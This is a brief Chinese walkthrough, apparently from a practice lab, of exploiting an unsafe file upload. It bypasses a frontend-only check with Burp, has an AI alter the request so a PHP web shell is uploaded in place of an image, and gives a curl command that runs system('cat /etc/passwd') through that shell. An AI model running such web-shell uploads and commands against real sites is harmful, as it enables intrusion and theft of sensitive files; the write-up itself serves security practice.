

因为只是前端校验文件是否合规，所以可以直接在burp绕过

让AI修改下发送包内容，将图片换成php文件，上传成功
随后使用命令访问
curl -X POST https://27aedf8e3e0b4557b080c5a54e4a7f5c--8081.ap-shanghai2.cloudstudio.club/vul/unsafeupload/uploads/shell.php -d "pass=system('cat /etc/passwd');"
即可读取敏感数据

